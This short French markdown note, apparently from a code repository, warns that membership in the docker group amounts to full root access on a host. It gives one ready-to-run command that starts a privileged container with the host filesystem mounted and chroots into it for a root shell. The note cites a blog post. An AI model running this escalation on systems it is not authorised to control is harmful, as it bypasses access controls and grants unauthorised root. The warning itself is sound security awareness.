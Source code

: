
# Les dangers du groupe docker

Si un utilisateur a le groupe docker alors il a toutes les droits sur la machine.
il peut utiliser un container du genre alpine ou ubuntu pour remonter le systeme en mode root 

```bash
docker run --rm -it -u root --privileged -v /:/mnt -v /var:/mnt/var -v /home/:/mnt/home ubuntu:22.04 chroot /mnt /bin/bash
```

---
Sources:
- https://blog.creekorful.org/2020/08/docker-privilege-escalation/